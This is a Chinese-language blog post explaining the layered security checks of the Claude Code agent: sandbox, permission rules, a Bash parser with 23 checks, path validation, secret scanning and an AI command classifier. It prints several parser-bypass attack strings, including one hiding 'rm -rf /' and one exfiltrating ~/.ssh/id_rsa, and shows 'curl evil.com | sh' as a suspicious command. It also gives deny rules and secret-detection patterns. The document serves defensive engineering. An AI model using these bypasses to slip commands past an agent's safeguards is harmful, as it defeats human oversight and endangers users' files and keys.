

# 解剖 Claude Code（六）：纵深防御——23 项安全检查与"不信任任何输入"

> 一个能在你的终端里执行 `rm -rf /` 的 AI Agent，必须有比"相信模型不会犯错"更强的安全保障。Claude Code 构建了 6 层纵深防御体系：从 OS 级沙箱到纯 TypeScript Bash 解析器的 23 项语法检查，每一层都假设上一层已被攻破。


<!-- IMG_06_COVER -->

---

## 问题

Agent 的安全威胁来自三个方向：

1. **模型自身的错误**：模型可能"理解错了"用户意图，执行破坏性命令
2. **Prompt 注入**：恶意文件内容被模型读取后，诱导模型执行攻击者的指令
3. **解析器差异攻击**：攻击者利用不同解析器（shell-quote vs Bash vs Zsh）对同一命令的理解差异，绕过安全检查

传统的安全方案——"检查命令是否在黑名单中"——在 Agent 场景下几乎无用。攻击者可以用命令替换、引号逃逸、Unicode 空白字符、Zsh 模块加载等手段绕过任何简单的字符串匹配。

Claude Code 的解法是**纵深防御（Defense in Depth）**：6 层安全屏障，每层独立工作，任何一层被突破都不会导致系统沦陷。

---

## 在整体架构中的位置

```
ReAct 循环的每一轮工具调用：

  工具请求 → ┌─────────────────────────────────┐
             │ Layer 1: 沙箱（OS 级隔离）        │
             │ Layer 2: 权限模式（用户意图）      │
             │ Layer 3: 规则匹配（8 个规则源）    │
             │ Layer 4: 命令验证（23 项检查）     │
             │ Layer 5: 路径验证                  │
             │ Layer 6: 内容检测（秘钥扫描）      │
             └─────────────────────────────────┘
                           │
                        执行工具
```

6 层是 **AND 逻辑**——每一层都必须通过，任何一层拒绝都会阻止执行。

---

## Layer 1：沙箱——OS 级隔离

沙箱是安全体系的最外层。即使所有其他检查都被绕过，沙箱从操作系统层面限制了进程能做什么。

### macOS：Seatbelt

macOS 上使用 Apple 的 Seatbelt（sandbox-exec）机制：

```
文件系统：
  ✅ 允许写入：当前目录 + Claude 临时目录
  ❌ 禁止写入：settings.json、.claude/skills/、裸 Git 仓库文件
  ❌ 禁止读取：由 deny 规则指定的路径

网络：
  ✅ 允许访问：域名白名单（从 WebFetch 规则提取）
  ❌ 禁止访问：白名单之外的所有域名
  🔒 策略模式：allowManagedDomainsOnly → 只允许组织管理的域名
```

### Linux：Bubblewrap (bwrap)

Linux 上使用 Bubblewrap 提供类似容器的隔离，支持 WSL2+。

### 沙箱的关键安全设计

**裸 Git 仓库文件保护**：沙箱明确禁止写入 `.git/HEAD`、`.git/objects`、`.git/refs`、`.git/hooks`、`.git/config`。为什么？因为攻击者可以通过植入这些文件，让沙箱外运行的 `git` 命令执行恶意代码——这是一种**跨沙箱逃逸**攻击。

**设置文件保护**：`settings.json` 被标记为禁止写入。如果攻击者能修改设置文件，就能关闭沙箱本身——所以设置文件必须在沙箱的保护范围之外。

---

## Layer 2：权限模式——用户意图声明

权限模式是用户对安全等级的全局声明：

| 模式 | 行为 | 适用场景 |
|------|------|----------|
| `default` | 每个新操作都询问 | 日常使用 |
| `plan` | 先展示计划，确认后执行 | 代码审查 |
| `acceptEdits` | 自动允许工作目录内的读写 | 快速开发 |
| `bypassPermissions` | 跳过所有权限检查 | 信任环境（仍受安全检查约束） |
| `dontAsk` | 自动拒绝所有需要权限的操作 | 测试/只读模式 |
| `auto`（内部） | AI 分类器自动决策 | 高级用户 |

**关键设计**：即使在 `bypassPermissions` 模式下，**安全检查（safetyCheck）仍然生效**。这意味着对 `.git/`、`.claude/`、shell 配置文件的保护是**不可绕过的**——它们独立于权限模式。

---

## Layer 3：规则匹配——8 个来源的权限规则

权限规则来自 8 个来源，按优先级排序：

```
优先级从高到低：

① policySettings     ← 组织策略（MDM 推送，不可修改）
② flagSettings       ← 托管配置
③ userSettings       ← ~/.claude/settings.json
④ projectSettings    ← .claude/settings.json（受版本控制）
⑤ localSettings      ← .claude/settings.local.json（不受版本控制）
⑥ cliArg             ← CLI --permission 参数
⑦ command            ← /add-permission 斜杠命令
⑧ session            ← 运行时会话更新
```

**规则格式**支持精确匹配和通配符：

```json
{
  "permissions": {
    "allow": [
      "Bash(git:*)",           // 允许所有 git 子命令
      "Bash(npm run:*)",       // 允许所有 npm run 脚本
      "Edit(/src/**)"          // 允许编辑 src 下所有文件
    ],
    "deny": [
      "Bash(rm -rf:*)",        // 禁止递归删除
      "WebFetch(domain:evil.com)"
    ]
  }
}
```

**决策逻辑**：deny 规则优先 → ask 规则其次 → allow 规则最后 → 默认询问用户。

**一次询问，永久放行**：当用户被询问并批准时，系统可以建议保存规则。例如批准 `npm install` 后，建议添加 `Bash(npm install:*)` 到 allow 规则——下次同类操作自动放行。

---

## Layer 4：命令验证——23 项 Bash 安全检查

这是 Claude Code 安全系统最精密的一层。一个纯 TypeScript 编写的 Bash 解析器，配合 23 项针对性的安全检查，专门防御**解析器差异攻击**。


<!-- IMG_06_BASH_PARSER -->

### 为什么需要自研 Bash 解析器？

安全检查必须**与 Bash 完全一致地理解命令**。如果安全检查器和 Bash 对同一条命令有不同的理解，攻击者就能利用这个差异：让安全检查器认为安全，但 Bash 实际执行了恶意操作。

Claude Code 的解析器：
- **纯 TypeScript**，无 WASM 依赖
- **50ms 超时**：防止恶意构造的深度嵌套命令导致 DoS
- **50,000 节点上限**：防止 OOM
- 生成 tree-sitter-bash 兼容的 AST

### 23 项安全检查全表

检查分为两个阶段：**早期验证器**（快速放行/拒绝）和**主验证器**（深度分析）。

**阶段一：早期验证器**

| ID | 检查 | 说明 |
|----|------|------|
| — | `validateEmpty()` | 空命令直接通过 |
| 1 | `validateIncompleteCommands()` | 拦截片段命令（以 tab、`&&`、`||`、`;` 开头） |
| — | `validateSafeCommandSubstitution()` | 安全的 heredoc-in-$() 模式直接放行 |
| 12 | `validateGitCommit()` | 简单 git commit 消息直接放行 |

如果早期验证器明确放行，跳过所有后续检查。

**阶段二：主验证器（按执行顺序）**

| ID | 检查名 | 防御目标 |
|----|--------|----------|
| 2 | JQ_SYSTEM_FUNCTION | jq 的 `system()` 函数执行任意命令 |
| 3 | JQ_FILE_ARGUMENTS | jq 的 `-f`、`--rawfile` 等读取任意文件 |
| 4 | OBFUSCATED_FLAGS | ANSI-C 引用 `$'...'`、locale 引用 `$"..."` 混淆标志 |
| 5 | SHELL_METACHARACTERS | 未引用的 `;`、`|`、`&` 在参数中 |
| 6 | DANGEROUS_VARIABLES | 危险上下文中的变量：`<$var`、`$var>`、`|$var` |
| 22 | COMMENT_QUOTE_DESYNC | `#` 注释内的引号导致引号追踪器失步 |
| 23 | QUOTED_NEWLINE | 引号内换行后的 `#` 行被 stripCommentLines 隐藏 |
| — | CARRIAGE_RETURN | `\r` 导致的解析差异 |
| 7 | NEWLINES | 换行分隔的多条命令 |
| 11 | IFS_INJECTION | `$IFS` 变量注入绕过验证 |
| 13 | PROC_ENVIRON_ACCESS | 读取 `/proc/*/environ` 泄露环境变量 |
| 8 | COMMAND_SUBSTITUTION | `$()`、反引号、`${}`、`$[]`、进程替换 `<()`/`>()` |
| 9 | INPUT_REDIRECTION | 输入重定向 `<` 读取敏感文件 |
| 10 | OUTPUT_REDIRECTION | 输出重定向 `>` 写入任意文件 |
| 15 | BACKSLASH_ESCAPED_WHITESPACE | `\ `（反斜杠空格）隐藏命令结构 |
| 21 | BACKSLASH_ESCAPED_OPERATORS | `\;`、`\|`、`\&` 导致 splitCommand 二次解析漏洞 |
| 18 | UNICODE_WHITESPACE | Unicode 空白字符导致解析不一致 |
| 19 | MID_WORD_HASH | 非空白后的 `#`（shell-quote vs bash 解析差异） |
| 16 | BRACE_EXPANSION | 花括号展开 `{a,b}` 绕过路径验证 |
| 20 | ZSH_DANGEROUS_COMMANDS | zmodload、ztcp、zsocket 等 26 个 Zsh 危险命令 |
| 14 | MALFORMED_TOKEN_INJECTION | 不平衡的定界符 + 命令分隔符（HackerOne eval 绕过） |
| 17 | CONTROL_CHARACTERS | 不可打印控制字符（0x00-0x08, 0x7F 等） |

### 真实攻击向量示例

**花括号展开攻击（Check 16）**：

```bash
git diff {@'{'0},--output=/tmp/pwned}

# 安全检查器看到的：@{0},--output=/tmp/pwned
# Bash 展开后：@{0} --output=/tmp/pwned
# 效果：git 把 diff 输出写入 /tmp/pwned（任意文件写入）
```

**注释引号失步攻击（Check 22）**：

```bash
echo "it's" # ' " <<'MARKER'
rm -rf /
MARKER

# Bash 看到的：# 开始注释，rm -rf / 是独立命令
# 引号追踪器看到的：# 后的 ' 切换到单引号模式，隐藏了换行
# 结果：validateNewlines 没发现未引用的换行
```

**反斜杠操作符双重解析攻击（Check 21）**：

```bash
cat safe.txt \; echo /etc/passwd > ./out

# splitCommand 归一化 \; 为裸 ;
# 二次解析变成两条命令：["cat safe.txt", "echo /etc/passwd > ./out"]
# 两条都通过 isCommandReadOnly 检查，路径验证被绕过
```

**引号换行隐藏行攻击（Check 23）**：

```bash
mv ./decoy '<\n>#' ~/.ssh/id_rsa ./exfil_dir

# stripCommentLines 按换行分割，看到 # 行，删除
# ~/.ssh/id_rsa 被隐藏，路径验证看不到它
# 效果：窃取 SSH 私钥
```

### 检查顺序的精心设计

验证器的顺序不是随意的：

1. **Comment/Quote desync 在 Newlines 之前**：因为引号失步攻击正是通过隐藏换行来逃逸
2. **Misparsing 检查优先返回**：设置 `isBashSecurityCheckForMisparsing: true` 标记，在权限层立即拦截
3. **Malformed Token 放在最后**：作为兜底，捕获更精确的检查遗漏的模式

---

## Layer 5：路径验证——文件访问控制

每个涉及文件路径的操作都经过路径验证：

### 多层路径检查

```typescript
function isPathAllowed(path, context) {
  // 1. Deny 规则优先检查
  if (matchesDenyRule(path)) return deny

  // 2. 内部可编辑路径放行（计划文件、暂存区）
  if (isInternalEditablePath(path)) return allow

  // 3. 安全性检查（不可绕过）
  if (isDangerousFile(path)) return deny     // .gitconfig, .bashrc, etc.
  if (isDangerousDirectory(path)) return deny // .git/, .vscode/, .claude/
  if (isClaudeSettingsPath(path)) return deny // settings.json

  // 4. 工作目录检查
  if (isInWorkingDirectory(path)) return allow

  // 5. 沙箱写入白名单
  if (isInSandboxWriteAllowlist(path)) return allow

  // 6. Allow 规则
  if (matchesAllowRule(path)) return allow

  // 7. 默认：询问
  return ask
}
```

### 危险文件与目录

```
危险文件（禁止自动编辑）：
  .gitconfig, .gitmodules, .bashrc, .bash_profile,
  .zshrc, .zprofile, .profile, .ripgreprc,
  .mcp.json, .claude.json

危险目录：
  .git/, .vscode/, .idea/, .claude/
```

### 路径安全加固

- **符号链接解析**：`safeResolvePath()` 使用 `realpathSync()` 解析所有符号链接，防止通过符号链接绕过目录限制
- **大小写归一化**：所有路径转小写比较，防止 `.cLauDe/Settings.locaL.json` 绕过
- **路径遍历检测**：拦截 `../` 序列
- **Windows 安全**：检测 UNC 路径（`\\server\share`）、备用数据流（`file:stream`）、短文件名（8.3 格式）

---

## Layer 6：内容检测——秘钥扫描

最后一道防线：扫描工具输出中的敏感信息。

### 40+ 秘钥检测规则

基于 gitleaks（MIT License）的正则表达式规则库，覆盖主流服务：

| 类别 | 检测模式示例 |
|------|-------------|
| **云服务** | AWS `AKIA...`/`ASIA...`、GCP `AIza...`、Azure AD 客户端密钥 |
| **AI API** | Anthropic `sk-ant-api03-...`、OpenAI 多种格式、HuggingFace `hf_...` |
| **版本控制** | GitHub PAT `ghp_...`、GitLab PAT `glpat-...`、Fine-grained Token |
| **通信** | Slack Bot/User/App Token、Twilio `SK...`、SendGrid `SG.` |
| **开发工具** | NPM `npm_...`、PyPI、Terraform、Pulumi |
| **支付** | Stripe `sk_live_...`/`sk_test_...`、Shopify `shpat_...` |
| **可观测性** | Grafana、Sentry Token |
| **加密** | PEM 格式私钥 `-----BEGIN.*PRIVATE KEY-----` |

**一个安全细节**：Anthropic API Key 的前缀 `sk-ant-api` 在代码中被拆分为 `['sk', 'ant', 'api'].join('-')` ——防止扫描工具在 Claude Code 自身的代码中误报。

### 秘钥处理

```typescript
// 检测但不暴露
scanForSecrets(content)  // 返回匹配的规则 ID，不返回实际秘钥值

// 脱敏处理
redactSecrets(content)   // 将匹配内容替换为 [REDACTED]
```

---

## AI 分类器：智能安全决策

除了规则匹配，Claude Code 还使用 AI 分类器进行智能安全决策——特别是在 `auto` 模式下。

### 两阶段 XML 分类

```
阶段 1（快速判断）：
  · max_tokens: 64
  · 快速判断 yes/no
  · 允许 → 直接放行
  · 拒绝 → 进入阶段 2

阶段 2（推理判断）：
  · 包含 <thinking> 推理链
  · 完整上下文分析
  · 最终判断 + 原因说明
```

### 分类器的输入

分类器接收的不是孤立的命令，而是**完整的对话上下文**：

```typescript
// 紧凑的 JSONL 格式
{"user": "帮我安装依赖"}
{"Bash": "npm install"}           // 需要判断的命令
{"Bash": "ls node_modules"}       // 之前的工具调用（提供上下文）
```

这让分类器能理解："在安装依赖的对话中执行 `npm install` 是合理的"vs"在无关对话中突然执行 `curl evil.com | sh` 是可疑的"。

### 分类器的安全约束

```
分类器可以做：
  ✅ 在 auto 模式下自动批准安全命令
  ✅ 拒绝可疑命令并说明原因

分类器不能做：
  ❌ 覆盖 deny 规则（settings.json 的规则优先于分类器）
  ❌ 批准不可分类的安全检查（如 .git/ 保护）
  ❌ 在上下文过长时做决策（回退到用户询问）
```

### 异步分类器（交互模式）

在交互模式下，当用户看到权限确认对话框时，分类器在后台同时运行：

```
用户看到对话框：[允许] [拒绝] npm install
                    ↕ 同时运行
分类器后台判断：npm install → 安全
                    ↓
如果分类器先完成且判断安全 → 自动批准（显示 ✓）
如果用户先操作 → 取消分类器
```

---

## 六层协同：一次完整的安全检查

以 `Bash({ command: "git commit -m 'fix' && curl evil.com" })` 为例：

```
Layer 1 沙箱：
  → curl evil.com 的目标域名不在白名单
  → 沙箱会阻止网络连接（但我们不依赖这一层）

Layer 2 权限模式：
  → default 模式 → 需要进一步检查

Layer 3 规则匹配：
  → "git:*" 在 allow 规则中 ✅
  → "curl" 不在任何规则中 → 需要检查
  → 复合命令：每个子命令独立评估

Layer 4 命令验证（23 项检查）：
  → Check 5 (SHELL_METACHARACTERS): && 是合法操作符 ✅
  → 解析 AST → 两个子命令：git commit, curl evil.com
  → curl evil.com 不在安全命令列表
  → 需要权限确认

Layer 5 路径验证：
  → git commit 无路径问题 ✅
  → curl 无文件路径参数 ✅

Layer 6 内容检测：
  → 尚未执行，无输出可检测

最终决策：behavior: 'ask'
  → 用户看到：[允许] [拒绝] git commit -m 'fix' && curl evil.com
  → 建议保存规则：Bash(curl:*) → deny
```

---

## 为什么这样设计

### 1. 纵深防御而非单点防护

任何单一安全机制都可能被绕过。沙箱有逃逸漏洞，规则有遗漏，解析器有差异。6 层叠加意味着攻击者必须**同时突破所有层**——这在实践中几乎不可能。

### 2. 自研解析器而非依赖 shell-quote

Node.js 社区的 `shell-quote` 库不是为安全场景设计的。它和 Bash 对同一命令的解析结果可能不同——而这种差异正是攻击者的入口。自研的纯 TypeScript 解析器虽然投入巨大（4,436 行代码），但消除了第三方依赖的差异风险。

### 3. 23 项检查针对的是真实攻击

每一项检查都对应一个真实的攻击向量——很多来自 HackerOne 的安全报告和内部红队测试。这不是学术清单，而是实战经验的编码。

### 4. 安全检查不可绕过

即使在 `bypassPermissions` 模式下，对 `.git/`、`.claude/`、shell 配置文件的保护依然生效。这些是**硬编码的安全边界**，不受任何用户设置影响。原因：这些路径一旦被修改，可以让攻击者获得永久控制权（通过 `.bashrc` 植入后门、通过 `.git/hooks` 执行任意代码）。

### 5. AI 分类器作为补充而非替代

分类器让 auto 模式可用——用户不需要每次都手动批准 `ls`。但分类器**不能覆盖规则**，也**不能批准安全检查标记的操作**。它的角色是"加速安全操作"，而非"决定什么是安全的"。

---

## 可借鉴的模式

### 模式一：解析器差异防御

```
规则：安全检查必须用与执行器一致的解析器理解输入。
实现：自研解析器 + 多检查覆盖同一攻击面的不同变体。
适用场景：任何接受结构化输入（SQL、Shell、模板语言）的安全系统。
```

不要用正则表达式做安全检查。用 AST。

### 模式二：不可绕过的安全边界

```
规则：某些安全约束独立于所有用户设置，硬编码在代码中。
实现：safetyCheck 类型的决策忽略 bypassPermissions 和 AI 分类器。
适用场景：任何存在"一旦被修改就永久沦陷"的配置文件的系统。
```

### 模式三：规则 > 分类器 > 默认

```
规则：显式规则优先于 AI 判断，AI 判断优先于默认行为。
实现：deny 规则 → ask 规则 → allow 规则 → 分类器 → 询问用户。
适用场景：需要兼顾安全性和可用性的 Agent 权限系统。
```

---

## 下一篇预告

安全系统确保了 Agent "不做坏事"。但 Agent 的用户体验也很关键——**感知延迟**决定了用户是否愿意等待。Claude Code 的投机执行系统和自研 Overlay 文件系统，让工具在用户确认之前就开始执行，确认后瞬间生效。下一篇，我们拆解投机执行与状态管理。

---

| 篇 | 标题 | 状态 |
|----|------|------|
| [01](/part1-foundation/ch01-architecture) | 512K 行代码，一个终端里的 Agent Runtime | ✅ |
| [02](/part1-foundation/ch02-react-loop) | ReAct 循环：`while(true)` 里的五个阶段与七层恢复 | ✅ |
| [03](/part1-foundation/ch03-cache-compression) | Prompt 缓存分割与四级上下文压缩 | ✅ |
| [04](/part2-core/ch04-tool-system) | 50 个工具的统一契约：Tool System 设计 | ✅ |
| [05](/part2-core/ch05-memory) | 五层记忆体系：从短期到持久化 | ✅ |
| **06** | **纵深防御：23 项安全检查与"不信任任何输入"**（本篇） | ✅ |
| 07 | 投机执行与自研状态管理：隐藏延迟的两个利器 | 🔄 下一篇 |
| 08 | 多 Agent 编排：三种执行模型与 Coordinator 模式 | ⬚ |
| 09 | 在终端里造一个浏览器：自定义 Ink 渲染引擎 | ⬚ |
| 10 | Bridge 与协议层：让 VS Code、Web、Mobile 共享一个 Claude | ⬚ |
| 11 | Skill、Plugin、Hook：三层扩展的设计谱系 | ⬚ |
| 12 | 回顾：从 Claude Code 中提炼的 10 个 Agent 工程模式 | ⬚ |
